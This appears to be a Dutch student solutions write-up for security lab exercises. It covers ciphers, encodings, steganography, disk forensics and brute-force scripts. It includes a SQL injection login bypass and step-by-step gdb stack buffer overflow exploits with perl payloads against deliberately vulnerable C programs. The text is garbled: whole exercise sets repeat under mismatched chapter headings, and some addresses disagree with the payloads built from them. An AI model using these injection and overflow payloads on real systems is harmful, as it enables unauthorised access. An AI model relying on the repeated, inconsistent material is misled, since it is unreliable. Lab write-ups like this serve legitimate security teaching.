  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Rechtermuisknop op dropdown-menu
  \item Inspect Element
  \item Open \textless select id...\textgreater
  \item Verander de Value van Joske naar Jan
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item Dit is een brute-force oefening
  \item Om het brute-forcen te vereenvoudigen kan er rekening gehouden worden met de verdeling van de letters in het engels
  \begin{enumerate}
  \item vb: e komt meer voor dan x
  \end{enumerate}
  \item the amazing dragon is defending the evidence in the classroom without pants
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item Save image
  \item Rechter muisknop, eigenschappen
  \item Tablad details
  \item Bij Copyright staat: wachtwoord: portretvanjan
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item Kopi"eer de opgave in een hex-ASCII converter
  \item De uitkomst nog eens converten van hex naar ASCII
  \item Oplossing: powerpudding
\end{enumerate}
\section{Oefening 10}
Deze oefening kan enkel opgelost worden door middel van het schrijven van een brute-force script.
\begin{lstlisting}
hashCode = function(s) {
	return s.split("").reduce(function(a,b) {
		a = ((a << 5) - a) + b.charCodeAt(0);
		return a&a
	}, 0);              
}

var chars = "abcdefghijklmnopqrstuvwxyz";

function brute(str) {
	if (str.length < 6) {
		var copy = str;
		
		for (var i =0; i < chars.length; i++) {
			copy = str;
			copy += chars.substring(i,i+1);
			if (hashCode(copy) == 97532594) {
				console.log(copy);
			} else {
				brute(copy);
			}
			
			if (str.length == 0) {
				console.log("Mogelijkheden met letter " + copy + " voltooid.");
			}
		}
	}
}

brute("");

Na enkele seconden vinden wij het volgende paswoord: "flups"
\end{lstlisting}
\section{Oefening 11}
\begin{enumerate}
  \item Google: braille alphabet
  \item de . wil zeggen dat het woord met een hoofdletter begint
  \item Bij het vertalen van de afbeelding krijgen we de oplossing
  \item Stevie Wonder
\end{enumerate}
\section{Oefening 12}
\begin{enumerate}
  \item Typ bij Username: checkenstunt' OR '1'='1
  \item Password mag leeg gelaten worden
\end{enumerate}
\section{Oefening 13}
Om de data uit de afbeelding te halen is men verplicht om een script te schrijven. Het onderstaande script is een voorbeeldscript. Wanneer we het script runnen krijgen een tekst.
\begin{lstlisting}
/*
Based on https://gist.github.com/niw/5963798
*/

#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <png.h>

void read_png_file(char*);

int main(int argc, char** argv) {
	if(argc != 2) {
		fprintf(stderr, "Usage: %s filename_picture\n", argv[0]);
		exit(1);
	}

	FILE *fp = fopen(argv[1], "rb");	

	png_structp png = png_create_read_struct(PNG_LIBPNG_VER_STRING, NULL, NULL, NULL);
	png_infop info = png_create_info_struct(png);
	if(setjmp(png_jmpbuf(png))) abort();

	png_init_io(png, fp);

	png_read_info(png, info);
	int width = png_get_image_width(png, info);
	int height = png_get_image_height(png, info);

	png_bytep* row_pointers = (png_bytep*) malloc(sizeof(png_bytep) * height);
	int x, y;
	for(y = 0; y < height; y++)
		row_pointers[y] = (png_byte*) malloc(png_get_rowbytes(png,info));

	png_read_image(png, row_pointers);
	fclose(fp);

	unsigned char e = 0; int bits_written = 0;
	for(y = 0; y < height; y++) {
		png_bytep row = row_pointers[y];
		for(x = 0; x < width; x++) {
			e = e << 1;
			if(row[x] & 1) e++;
				bits_written++;

			if(bits_written == 8) {
				printf("%c", e);
				e = 0; bits_written = 0;
			}
		}
	}

	return 0;
}

Do you see any Teletubbies in here? Do you see a slender plastic tag clipped to my shirt with my name printed on it? Do you see a little Asian child with a blank expression on his face sitting outside on a mechanical helicopter that shakes when you put quarters in it? No? Well, that's what you see at a toy store. And you must think you're in a toy store, because you're here shopping for an infant named Jeb. (From http://slipsum.com)
\end{lstlisting}
\section{Oefening 14}
De eerste oplossing van deze evil\_usb.dd kan men vinden door het bekijken van de aanwezig browser history.\\
Hier kan men een link naar Google Maps met co\"ordinaten terugvinden. Wanneer deze co\"ordinaten in Google Maps worden ingevoerd wordt "Ketenislaan" gevonden.\\\\
De tweede oplossing is iets moeilijker. Eerst controleren we met behulp van het fls-commando de verwijderde bestanden. Na het uitvoeren van ``fls -r evil\_usb.dd'' worden er 4 foto's gevonden.\\\\
De oplossing is de link tussen deze foto's. Amerika.
\section{Oefening 15}
\begin{enumerate}
  \item Het lezen van de letters van de woorden van rechts naar links
  \item encryptie koning
\end{enumerate}
\newpage

\chapter{malware}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\newpage

\chapter{encryptie}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x3')''
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
\section{Oefening 4}
\begin{enumerate}
  \item View Page Source
  \item Scroll naar beneden
  \item Plak alles \textless script\textgreater eval(function(p,a,c,k,e,d) ... in http://jsbeautifier.org
  \item Copy alles van "var tse = ..." tot en met "var wachtwoord = ..."
  \item Open Console (CTRL + SHIFT + j)
  \item Plak in Console tab en typ: console.log(yBV + 'gGZ' + Pf3 + z52 + fC7);
  \item DXbgGZWdUFyUgaH verschijnt
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Rechtermuisknop op dropdown-menu
  \item Inspect Element
  \item Open \textless select id...\textgreater
  \item Verander de Value van Joske naar Jan
  \item Druk op Verzend
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item Dit is een brute-force oefening
  \item Om het brute-forcen te vereenvoudigen kan er rekening gehouden worden met de verdeling van de letters in het engels
  \begin{enumerate}
  \item vb: e komt meer voor dan x
  \end{enumerate}
  \item the amazing dragon is defending the evidence in the classroom without pants
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item Save image
  \item Rechter muisknop, eigenschappen
  \item Tablad details
  \item Bij Copyright staat: wachtwoord: portretvanjan
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item Kopi"eer de opgave in een hex-ASCII converter
  \item De uitkomst nog eens converten van hex naar ASCII
  \item Oplossing: powerpudding
\end{enumerate}
\section{Oefening 10}
Deze oefening kan enkel opgelost worden door middel van het schrijven van een brute-force script.
\begin{lstlisting}
hashCode = function(s) {
	return s.split("").reduce(function(a,b) {
		a = ((a << 5) - a) + b.charCodeAt(0);
		return a&a
	}, 0);              
}

var chars = "abcdefghijklmnopqrstuvwxyz";

function brute(str) {
	if (str.length < 6) {
		var copy = str;
		
		for (var i =0; i < chars.length; i++) {
			copy = str;
			copy += chars.substring(i,i+1);
			if (hashCode(copy) == 97532594) {
				console.log(copy);
			} else {
				brute(copy);
			}
			
			if (str.length == 0) {
				console.log("Mogelijkheden met letter " + copy + " voltooid.");
			}
		}
	}
}

brute("");

Na enkele seconden vinden wij het volgende paswoord: "flups"
\end{lstlisting}
\section{Oefening 11}
\begin{enumerate}
  \item Google: braille alphabet
  \item de . wil zeggen dat het woord met een hoofdletter begint
  \item Bij het vertalen van de afbeelding krijgen we de oplossing
  \item Stevie Wonder
\end{enumerate}
\section{Oefening 12}
\begin{enumerate}
  \item Typ bij Username: checkenstunt' OR '1'='1
  \item Password mag leeg gelaten worden
\end{enumerate}
\section{Oefening 13}
Om de data uit de afbeelding te halen is men verplicht om een script te schrijven. Het onderstaande script is een voorbeeldscript. Wanneer we het script runnen krijgen een tekst.
\begin{lstlisting}
/*
Based on https://gist.github.com/niw/5963798
*/

#include <stdio.h>
#include <stdlib.h>
#include <limits.h>
#include <png.h>

void read_png_file(char*);

int main(int argc, char** argv) {
	if(argc != 2) {
		fprintf(stderr, "Usage: %s filename_picture\n", argv[0]);
		exit(1);
	}

	FILE *fp = fopen(argv[1], "rb");	

	png_structp png = png_create_read_struct(PNG_LIBPNG_VER_STRING, NULL, NULL, NULL);
	png_infop info = png_create_info_struct(png);
	if(setjmp(png_jmpbuf(png))) abort();

	png_init_io(png, fp);

	png_read_info(png, info);
	int width = png_get_image_width(png, info);
	int height = png_get_image_height(png, info);

	png_bytep* row_pointers = (png_bytep*) malloc(sizeof(png_bytep) * height);
	int x, y;
	for(y = 0; y < height; y++)
		row_pointers[y] = (png_byte*) malloc(png_get_rowbytes(png,info));

	png_read_image(png, row_pointers);
	fclose(fp);

	unsigned char e = 0; int bits_written = 0;
	for(y = 0; y < height; y++) {
		png_bytep row = row_pointers[y];
		for(x = 0; x < width; x++) {
			e = e << 1;
			if(row[x] & 1) e++;
				bits_written++;

			if(bits_written == 8) {
				printf("%c", e);
				e = 0; bits_written = 0;
			}
		}
	}

	return 0;
}

Do you see any Teletubbies in here? Do you see a slender plastic tag clipped to my shirt with my name printed on it? Do you see a little Asian child with a blank expression on his face sitting outside on a mechanical helicopter that shakes when you put quarters in it? No? Well, that's what you see at a toy store. And you must think you're in a toy store, because you're here shopping for an infant named Jeb. (From http://slipsum.com)
\end{lstlisting}
\section{Oefening 14}
De eerste oplossing van deze evil\_usb.dd kan men vinden door het bekijken van de aanwezig browser history.\\
Hier kan men een link naar Google Maps met co\"ordinaten terugvinden. Wanneer deze co\"ordinaten in Google Maps worden ingevoerd wordt "Ketenislaan" gevonden.\\\\
De tweede oplossing is iets moeilijker. Eerst controleren we met behulp van het fls-commando de verwijderde bestanden. Na het uitvoeren van ``fls -r evil\_usb.dd'' worden er 4 foto's gevonden.\\\\
De oplossing is de link tussen deze foto's. Amerika.
\section{Oefening 15}
\begin{enumerate}
  \item Het lezen van de letters van de woorden van rechts naar links
  \item encryptie koning
\end{enumerate}
\section{Oefening 16}

\includegraphics[scale=0.5]{encryptie/oef16.png}
\\\\Uit bovenstaande afbeelding kunnen we de oplossing berekenen: kikkerkermit
\section{Oefening 17}
\begin{enumerate}
  \item Surf naar Google Translate
  \item Geef de opgave in
  \item Google kan automatisch een taal detecteren
  \item voetbal
\end{enumerate}
\section{Oefening 18}
Een manier om deze oefening op te lossen is door middel van brute-forcen. Dit kan op de website zelf gedaan worden in de console (CTRL + SHIFT + j). Onderstaande script is een voorbeeld oplossing.
\\\\
De naam van de afbeeldingen zijn altijd volgens de dezelfde structuur opgeslagen: `cijfer' + `teken' + `teken'.
\\\\
Het wachtwoord is 20 tekens lang. Er staatn 2 letters per afbeelding, dus moeten we 10 afbeeldingen vinden in totaal.De eerste 2 zijn al gegeven, dus het script moet beginnen bij 3.(De eerste lus)
\\\\
De volgende twee lussen dienen om de alle mogelijke tekens te overlopen. Een lus voor het eerste teken en een lus voor het tweede teken.
\\\\
In dit script zal de afbeelding direct in HTML geplaatst worden. Hierdoor zien we onmiddellijk wanneer de volgende 2 letters gevonden zijn.
\\\\
In de code van deze website staan divs met class 'uitlijnen', dit kan via Javascript makkelijk aangesproken en uitgebreid worden. Er kan hier ook een ander element op basis van een class of id gebruikt worden.
\\\\
Het is mogelijk dat de website dit script niet kan uitvoeren, dan moet men de buitenste for-lus verwijderen en de volgende lijn manueel aanpassen:
\begin{lstlisting}
<img src="/bestanden/18/' + i + abc[j] + abc[k] + '.png">'; naar
	<img src="/bestanden/18/3 + abc[j] + abc[k] + '.png">';
	<img src="/bestanden/18/4 + abc[j] + abc[k] + '.png">';
	...
	<img src="/bestanden/18/10 + abc[j] + abc[k] + '.png">';
\end{lstlisting}

Uiteindelijk vinden we het volgende wachtwoord: dgv255eifx6xqwfzslwv

\begin{lstlisting}
var abc = "abcdefghijklmnopqrstuvwxyz123456789";

for (var i = 3; i <= 10; i++) {
	for (var j = 0; j < abc.length; j++) {
		for (var k = 0; k < abc.length; k++) {
			document.getElementsByClassName("uitlijnen")[0].innerHTML += '<img src="/bestanden/18/' + i + 
				abc[j] + abc[k] + '.png">';
		}
	}
}
\end{lstlisting}
\section{Oefening 19}
\begin{enumerate}
  \item Oplossen m.b.v Wikipedia: http://nl.wikipedia.org/wiki/Vigen\%C3\%A8recijfer
  \item De key: mintymagnet
  \begin{enumerate}
  \item Linker kolom: M, Rechter kolom: R = F
  \item LK: I, RK: T = L
  \item ...
  \item LK: E, RK: W = S
  \item LK: T RK: A = H
  \end{enumerate}
  \item floppyflash
\end{enumerate}
\section{Oefening 20}
\begin{lstlisting}
Key: LEONARDO en DAVINCI
Opgave: dmo ua pda mae wi et wuk

D A V I N C I		1) dmo verticaal schrijven onder 1
3 1 7 4 6 2 5		2) ua onder 2
-------------		   ...
P D W M E U W		7) wuk onder 7
D M U A T A I
A O K E

L E O N A R D O		1) PD verticaal onder 1
4 3 6 5 1 8 2 7		2) WM onder 2
---------------		3) EUW onder 3
D E A A P K W A		   ...
M U I T D E M 0		8) KE onder R
U W     

Oplossing: de aap kwam uit de mouw
\end{lstlisting}
\newpage

\chapter{Trivia}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item gcc -g -fno-stack-protector -z execstack -o cracking-safe cracking-safe.c
  \item gdb -q cracking-safe
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 1 argument: \textless paswoord\textgreater
  		\item return\_value == 0
  		\item password == argv[1]
  		\item strcmp(password, "") == 0 --\textgreater succes
  			\begin{enumerate}
  			\item Lege String als argument meegeven gaat niet
  			\end{enumerate}
  		\end{enumerate}
  	\end{enumerate}
  \item (gdb) break 8
  		\begin{enumerate}
  		\item Adressen van password en return\_value  			
  		\end{enumerate}
  \item (gdb) break 10
  		\begin{enumerate}
  		\item Controleren of overflow gelukt is  			
  		\end{enumerate}
  \item (gdb) run azer
  		\item (gdb) x/x \&return\_value
  			\begin{enumerate}
  			\item 0xbffff65c
  			\end{enumerate}
  		\item (gdb) x/x password
  			\begin{enumerate}
  			\item 0xbffff654
  			\end{enumerate}
  	\item (gdb) print 0xbffff65c - 0xbffff654
  		\begin{enumerate}
  		\item \$1 = 8
  		\end{enumerate}
  	\item (gdb) run ``azertyuip''
  	\item (gdb) cont
  	\item (gdb) x/x \&return\_value
  		\begin{enumerate}
  		\item 0xbffff64c: 0x00000070
  		\item return\_value is overschreven en zal geen 0 meer teruggeven.
  		\end{enumerate}
  	\item (gdb) quit
  	\item ./cracking-safe ``\$(perl -e `print ``A''x8 . ``B'' ')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_safe(char *pass){
	int return_value = 0;
	char password[8];

	strcpy(password, pass);

	if(strcmp(password, "") == 0)
		return_value = 1;

	return return_value;
}

int main(int argc, char *argv[]) {
	if(argc < 2){
		printf("Fout!\nGebruik: %s <password>\n", argv[0]);
		exit(0);
	}

	if(strlen(argv[1]) == 0){
		printf("Fout!\nHet passwoord mag niet leeg zijn.\n");
		exit(0);
	}

	if(check_safe(argv[1])){
		printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf(" Successfully cracked the safe.\n");
		printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
		printf("Er staan momenteel 4 examens in de kluis:\n\n");
		printf("1) Besturingssystemen 1     P. Geens          [Open]\n");
		printf("2) Besturingssystemen 2     P. Geens          [Open]\n");
		printf("3) Databanken 2             W. Bertels        [Open]\n");
		printf("4) Beveiliging              P. Philippaerts   [Open]\n");

	}else{
		printf("\nSafe still closed.\n");
	}
}
\end{lstlisting}
\section{Oefening 3}
\begin{enumerate}
  \item gcc-3.3 -o prism prism.c
  \item gdb -q prism 
  \item (gdb) list
  	\begin{enumerate}
  	\item Door dit commando uit te voeren krijgen we een overzicht van de programma code
  	\item We zoeken de scharnierpunten in dit programma:
  		\begin{enumerate}
  		\item 2 argumenten: \textless IP-address\textgreater \textless password\textgreater
  		\item pw
  		\item return\_val == 0
 		\item Het return adres moet overschreven worden met het adres van de gegevens functie
  		\end{enumerate}
  	\end{enumerate}
  \item set disassembly-flavor intel
  	\begin{enumerate}
  	\item Disassembly taal naar intel zetten
  	\end{enumerate}
  \item disass gegevens
  	\begin{enumerate}
  	\item 0x08048481
  	\item Dit adres moet het return-adres van de main functie overschrijven
  		\begin{enumerate}
  		\item Let op: Little Endian
  		\end{enumerate}
  	\end{enumerate}
  \item Trial and error
  	\begin{enumerate}
  	\item (gdb) run ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x2')''
  		\begin{enumerate}
  		\item Program exited normally
  		\end{enumerate}
